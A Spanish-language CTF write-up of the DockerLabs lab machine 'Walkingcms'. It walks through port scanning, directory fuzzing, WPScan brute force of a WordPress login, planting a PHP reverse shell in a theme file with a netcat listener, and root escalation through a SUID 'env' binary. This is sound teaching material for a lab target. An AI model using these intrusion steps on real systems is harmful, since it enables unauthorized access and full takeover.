# 🧠 **Informe de Pentesting – Máquina: Walkingcms**

### 💡 **Dificultad:** Fácil

### 🧩 **Plataforma:** DockerLabs


---

# ⚙️ **Despliegue de la máquina**

Antes de iniciar el proceso de reconocimiento y explotación, se procede a desplegar la máquina vulnerable proporcionada por DockerLabs.

La máquina se distribuye comprimida en formato `.zip`, conteniendo una imagen Docker y un script automatizado para facilitar su ejecución.

```bash
unzip walkingcms.zip
sudo bash auto_deploy.sh walkingcms.tar
```

### Explicación del proceso:

* **unzip walkingcms.zip**
  Extrae el contenido comprimido de la máquina vulnerable.

* **auto_deploy.sh walkingcms.tar**
  Ejecuta el script automatizado encargado de importar la imagen Docker y desplegar el contenedor vulnerable.

Una vez finalizado el proceso, la máquina queda disponible dentro de la red Docker local.



---

# 📡 **Comprobación de conectividad**

Antes de comenzar la enumeración, es importante verificar que el objetivo se encuentra encendido y responde dentro de la red.

```bash
ping -c1 172.17.0.2
```

### Explicación:

* **ping** → Utilidad utilizada para verificar conectividad ICMP.
* **-c1** → Envía únicamente un paquete.

La recepción de respuesta confirma:

* Existencia del host
* Conectividad de red
* Baja latencia esperada al encontrarse dentro de Docker

---

# 🔍 **Fase de Reconocimiento – Escaneo de Puertos**

La enumeración inicial comienza identificando los puertos expuestos.

Se realiza un escaneo completo sobre todos los puertos TCP:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## Explicación detallada de parámetros:

* **-p-** → Escanea los 65535 puertos TCP.
* **--open** → Muestra únicamente puertos abiertos.
* **-sS** → Realiza SYN Scan (Stealth Scan).
* **--min-rate 5000** → Fuerza una velocidad mínima de envío de paquetes.
* **-vvv** → Incrementa la verbosidad.
* **-n** → Evita resolución DNS.
* **-Pn** → Omite detección previa de host activo.

---

## 📌 Resultado obtenido

Se identifica únicamente:

* **80/tcp → HTTP**

Esto indica que la superficie de ataque inicial está centrada en aplicaciones web.

---

## Enumeración de servicios

Una vez identificados los puertos abiertos, se ejecuta un escaneo más profundo:

```bash
nmap -sCV -p21,80 172.17.0.2
```

### Explicación:

* **-sC** → Ejecuta scripts NSE básicos.
* **-sV** → Detecta versiones.
* **-p21,80** → Analiza puertos concretos.

Este análisis revela que el servidor web utiliza **Apache**.



---

# 🌐 Enumeración Web

Al acceder al servicio HTTP:

```bash
http://172.17.0.2
```

Se observa la página por defecto de Apache.

Esto normalmente indica:

* Mala configuración
* Aplicaciones ocultas
* Directorios adicionales sin indexación



---

# 🔎 Fuzzing de Directorios

Se utiliza **Gobuster** para buscar contenido oculto.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 10701
```

## Explicación de Gobuster

Gobuster es una herramienta de fuerza bruta para descubrir:

* Directorios ocultos
* Archivos no indexados
* Backups
* Paneles administrativos

### Parámetros utilizados:

* **dir** → Modo descubrimiento web.
* **-u** → URL objetivo.
* **-w** → Wordlist.
* **-x** → Extensiones adicionales.
* **-b 403,404** → Ignora respuestas específicas.
* **--exclude-length** → Filtra falsos positivos.

---

## Resultado:

Se descubre:

```text
/wordpress
```

Accedemos:

```bash
http://172.17.0.2/wordpress
```



La presencia de WordPress amplía considerablemente la superficie de ataque debido a:

* Plugins
* Usuarios enumerables
* Temas vulnerables
* Configuraciones inseguras

---

# 🔐 Descubrimiento del Panel Administrativo

Se continúa enumerando:

```bash
gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 10701
```

Resultado:

```text
/wp-admin
```

Acceso:

```bash
http://172.17.0.2/wordpress/wp-admin
```

Esto confirma la existencia del portal administrativo.

---

# 👤 Enumeración de Usuarios WordPress

Se utiliza WPScan.

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u
```

## ¿Qué es WPScan?

WPScan es una herramienta especializada en WordPress capaz de:

* Enumerar usuarios
* Detectar plugins
* Buscar vulnerabilidades
* Realizar ataques de credenciales

---

Resultado:

Usuario encontrado:

```text
mario
```





---

# 🔓 Ataque de Credenciales

Ahora se prueba fuerza bruta sobre el usuario identificado.

```bash
wpscan --url http://172.17.0.2/wordpress --usernames mario --passwords /usr/share/wordlists/rockyou.txt
```

## Explicación:

* **--usernames** → Usuario objetivo.
* **--passwords** → Diccionario utilizado.

Se utiliza **rockyou.txt**, uno de los diccionarios más usados en auditorías.

Resultado:

```text
mario:love
```





Credenciales obtenidas:

```text
Usuario: mario
Contraseña: love
```

Acceso exitoso al panel.



---

# 💻 Obtención de Acceso Remoto (Reverse Shell)

Con privilegios administrativos en WordPress se aprovecha el editor de temas.

Ruta:

```text
Apariencia → Theme Code Editor
```

Archivo modificado:

```text
index.php
```



Se reemplaza el contenido por una reverse shell PHP:

```text
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Antes de guardar:

* Cambiar IP atacante
* Cambiar puerto de escucha



---

## Configuración del Listener

Máquina atacante:

```bash
sudo nc -lvnp 445
```

### Explicación:

* **-l** → Escucha conexiones.
* **-v** → Verbose.
* **-n** → Sin DNS.
* **-p** → Puerto.

---

Ejecutamos:

```bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```

La reverse shell conecta exitosamente.

---

# 🖥️ Tratamiento de TTY

Las shells web suelen ser inestables.

Se estabiliza:

```bash
script /dev/null -c bash
```

Suspensión:

```bash
Ctrl + Z
```

Máquina atacante:

```bash
stty raw -echo; fg
```

Después:

```bash
reset xterm
```

Variables:

```bash
export TERM=xterm
export BASH=bash
```

Esto permite:

* Ctrl+C funcional
* Autocompletado
* Mejor interacción
* Programas interactivos

---

# 🚀 Escalada de Privilegios

Una vez dentro como:

```text
www-data
```

se inicia la búsqueda de configuraciones inseguras.

---

## 1. Enumeración de binarios SUID

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

### Explicación:

* **find /** → Busca en todo el sistema.
* **-type f** → Solo archivos.
* **-perm -4000** → Busca SUID.
* **2>/dev/null** → Oculta errores.

---

## ¿Qué es SUID?

SUID (**Set User ID**) permite ejecutar un binario con los privilegios del propietario.

Ejemplo:

```text
-rwsr-xr-x
```

La **s** indica SUID.

Esto significa:

> Un usuario normal puede ejecutar temporalmente el binario con privilegios del propietario.

---

## Hallazgo Crítico

Durante la enumeración aparece:

```text
/usr/bin/env
```

con:

```text
-rwsr-xr-x
```

Esto representa una mala configuración crítica.

---

# 2. Análisis del Binario Vulnerable

`env` normalmente:

* Modifica variables de entorno
* Ejecuta programas
* Lanza procesos

El problema:

**posee SUID root**

Por tanto:

> Todo programa lanzado desde `env` hereda privilegios elevados.

---

# 3. Explotación

Comando ejecutado:

```bash
env /bin/bash -p
```

---

## Desglose técnico

### `env`

Ejecuta otro programa heredando privilegios SUID.

### `/bin/bash`

Invoca Bash.

### `-p`

Activa:

```text
Privileged Mode
```

Esto evita que Bash elimine privilegios efectivos.

Sin `-p`:

```text
root → www-data
```

Con `-p`:

```text
root → root
```

Por ello la shell conserva:

```text
euid=0
```

---

# 4. Verificación

Prompt:

```text
bash-5.2#
```

Comprobación:

```bash
whoami
```

Resultado:

```text
root
```



---
